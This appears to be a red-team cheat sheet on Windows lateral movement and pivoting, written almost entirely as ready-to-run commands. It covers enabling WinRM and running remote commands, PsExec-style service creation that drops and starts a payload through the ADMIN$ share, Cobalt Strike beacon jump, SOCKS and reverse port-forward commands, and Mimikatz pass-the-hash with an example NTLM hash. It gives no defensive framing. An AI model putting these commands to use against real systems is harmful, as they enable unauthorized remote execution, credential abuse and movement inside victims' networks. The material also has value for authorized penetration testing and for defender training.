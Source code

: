 ## WinRM

### Enable WinRM (5985,5986,47001)
```powershell
Enable-PSRemoting -SkipNetworkProfileCheck -Force
Set-Item wsman:\localhost\client\trustedhosts * -Force
```

### Authenticate with Credential
```powershell
$Password = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force;
$Credential = New-Object System.Management.Automation.PSCredential("marvel\administrator", $Password);
```

### Invoke-Command
```powershell
Invoke-Command -ComputerName hydra-dc -ScriptBlock {hostname; whoami} -Credential $Credential
```

### PowerShell Session
```powershell
Enter-PSSession -ComputerName hydra-dc -Credential $Credential
```

### Cobalt
```powershell
jump winrm64 dc1 smb1
remote-exec winrm dc1 whoami
```

## PSExec

- Copy a service binary to the ADMIN$ share over SMB
- Create a service on the remote machine pointing to the binary
- Remotely start the service
- When exited, stop the service and delete the binary
```powershell
copy payload.exe \\dc1\ADMIN$
sc \\dc1 create shell binPath= "C:\Windows\payload.exe"
sc \\dc1 start shell
del \\dc1\ADMIN$\payload.exe
sc \\dc1 delete shell
```

- OR Without Binary
```powershell
sc \\localhost create shell binPath= "%COMSPEC% /Q /c echo whoami ^> C:\Windows\take1.txt > C:\Windows\take1.bat & %COMSPEC% /Q /c C:\Windows\take1.bat"
sc \\dc1 start shell
type \\dc1\ADMIN$\take1.txt
del \\dc1\ADMIN$\take1.txt \\dc1\ADMIN$\take1.bat
sc \\dc1 delete shell
```

### PsExec.exe
```powershell
psexec.exe \\dc1 -accepteula cmd.exe -u marvel\administrator -p P@ssw0rd
```

### Cobalt
```powershell
jump psexec64 dc1 smb1
jump psexec_psh dc1 smb1
remote-exec psexec dc1 whoami
```

## Pivoting (Socks Proxy)
```powershell
beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging
```

### Linux
```powershell
sudo nano /etc/proxychains.conf
	socks5 127.0.0.1 1080 socks_user socks_password
proxychains nmap -nn -Pn -sT -p445,3389,4444,5985 10.10.122.10
```

### Windows
```powershell
Profile > Proxy Servers > Add
	Server: 10.10.5.50
	Port: 1080
	Protocol: SOCKS Version5
	Enable_Authentication
Profile > Proxification Rules > Add
	Name: Tools
	Applications: Any
	Target hosts: 10.10.120.0/24;10.10.122.0/24
	Target ports: Any
	Action: Proxy SOCKS5 10.10.5.50
```
```powershell
cmd> runas /netonly /user:DEV\bfarmer mmc.exe
mimikatz> privilege::debug
mimikatz> sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

### Browser
```powershell
FoxyProxy
	Title: Beacon
	Proxy Type: SOCKS5
	Proxy IP: 10.10.5.50
	Port: 1080
	Username: socks_user
	Password: socks_password
```

## Pivoting (Reverse Port Forwards)

### Allow Firewall
```powershell
New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

### Victim_Port:8080 Attacker_Port:80
```powershell
beacon> rportfwd 8080 127.0.0.1 80
beacon> run netstat -anp TCP
```
